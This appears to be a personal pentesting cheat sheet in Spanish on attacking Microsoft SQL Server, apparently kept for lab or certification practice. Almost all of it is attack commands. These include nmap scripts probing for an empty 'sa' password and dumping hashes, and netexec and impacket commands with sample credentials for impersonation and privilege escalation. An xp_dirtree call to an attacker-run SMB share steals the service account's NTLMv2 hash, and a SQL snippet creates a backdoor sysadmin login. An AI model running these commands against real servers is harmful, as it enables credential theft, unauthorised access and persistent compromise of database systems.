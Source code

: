 ```yaml
---
title: 1433 - Microsoft SQL Server
layout: default
---
```

Está todo en la página de hacktricks, importante mirar exploits para la versión

[1433 - Pentesting MSSQL - Microsoft SQL Server - HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html?highlight=sql%20server#1433---pentesting-mssql---microsoft-sql-server)

# Sin credenciales : 

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

# Con credenciales

```bash
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
```

Listar usuarios
```sql
select name, create_date, modify_date, type_desc as type, authentication_type_desc as authentication_type, sid from sys.database_principals where type not in ('A', 'R') order by name;
```

Listar usuarios que podemos impersonar (quizás tienen acceso a bases de datos que nosotros no tenemos)
```bash
nxc mssql 192.168.162.40 -u 'discovery' -p 'Start123!' -M enum_impersonate
```

Listar sysadmins
```sql
Use master; EXEC sp_helpsrvrolemember 'sysadmin';
```

Logins que permiten entrar al motor SQL
```bash
nxc mssql 192.168.162.40 -u 'discovery' -p 'Start123!' -M enum_logins
```

Para enumerar si un usuario al que puedo impersonar es sysadmin
```sql
EXECUTE AS LOGIN = 'hrappdb-reader' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```

# Para ver si puedo hacer privesc

[MSSQL PrivEsc | NetExec](https://www.netexec.wiki/mssql-protocol/mssql-privesc)

```
nxc mssql <ip> -u user -p password -M mssql_priv
```

```
nxc mssql <ip> -u user -p password -M mssql_priv --local-auth
```

# Diversas pruebas con netexec :

https://www.netexec.wiki/mssql-protocol/

# Obtener hash NTLMv2

mssql lo corre el servicio sql_svc, podemos obtener su hash

```sql
EXEC xp_dirtree '\\IP\share', 1, 1
```

```bash
impacket-smbserver share ./share -smb2support
```


Si todo lo anterior falla, revisar los contenidos de la db

# ERROR LOG

Puede contener creds

```
cd C:\SQLServer\Logs
type ERRORLOG.BAK
```

# COMANDOS BÁSICOS

```sql
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

# Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;

# List table content
USE DATABASE;
SELECT * FROM TABLE;

#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;

#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

#Enumerate links
enum_links

#Use a link
use_link [NAME]

```